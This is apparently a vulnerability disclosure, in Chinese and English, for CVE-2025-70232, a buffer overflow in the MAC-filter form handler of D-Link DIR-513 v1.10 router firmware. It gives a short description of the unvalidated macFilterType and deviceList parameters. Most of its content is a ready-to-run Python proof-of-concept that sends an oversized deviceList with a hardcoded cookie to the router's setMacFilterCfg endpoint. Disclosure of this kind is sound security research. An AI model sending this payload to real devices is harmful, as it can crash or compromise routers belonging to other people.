


# CVE-2025-70232 漏洞信息

## 基础信息
- **CVE编号**: CVE-2025-70232
- **影响组件**: goform/formSetMACFilter
- **固件版本**: D-Link DIR-513 v1.10（DIR513A1_FW110WWb01）

## 漏洞详情








In the function formSetMacFilterCfg, user-supplied parameters macFilterType(v18) and deviceList(v17) are passed to a function without input validation, ultimately leading to an overflow.

The tainted parameter is passed by the function within the image.

poc:
```
import requests
def send_payload(url, type,list):
    params = {b'macFilterType': type,b'deviceList': list}
    cookie={'password':'ssetgb'}
    response = requests.post(url, cookies=cookie, data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
url="http://192.168.1.1/goform/setMacFilterCfg"
type=b'black'
list="DEADBEEFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\r11"
send_payload(url, type, list)
```
